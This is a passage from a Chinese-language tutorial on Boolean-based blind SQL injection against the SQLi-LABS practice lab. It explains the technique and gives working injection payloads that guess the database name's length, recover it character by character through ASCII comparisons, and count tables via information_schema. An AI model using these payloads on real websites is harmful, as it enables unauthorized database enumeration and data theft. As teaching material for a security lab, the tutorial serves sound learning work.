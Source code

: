 ### 3.布尔盲注实例-逻辑判断

布尔型（逻辑型）是计算机里的一种数据类型，只有True（真）和False（假）两个值。

页面在执行sql语句后，只显示两种结果，这时可通过构造逻辑表达式的sql语句来判断数据的具体内容。

```
参考：
mid(str,start,length)      #字符串截取
ORD()                      #转换成ascii码
Length()                   #统计长度
version()                  #查看数据库版本
database()                 #查看当前数据库名
user()                     #查看当前用户
```

以下实例来自于SQLi-LABS靶场

判断版本号。

```
mysql&gt; select version()
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set(0.00 sec)
```

判断版本号的前一位（第一位）是不是“5”。

判断版本号的第二位是不是“.”------错误判断方法（应将第一位也写入）。

判断版本号的第三位是不是“5”，应该将已经判断出来的第一、二位也写入，判断其前三位。

判断数据库名的前两位是不是“se”

---


#### 猜解获取数据库长度

```
' or length(database()) &gt; 8 --+    #符合条件返回正确，反之返回错误---&gt;1
```

#### 猜解数据库名

```
'or mid(database(),1,1)= 'z' --+    #因为需要验证的字符太多，所以转化为ascii码验证---&gt;1

'or ORD(mid(database(),1,1)) &gt; 100 --+    #通过确定ascii码，从而确定数据库名---&gt;2
```

#### 猜解表的总数

```
'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 1  --+    #判断表的总数---&gt;2

'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 2  --+    #判断表的总数---&gt;1
```
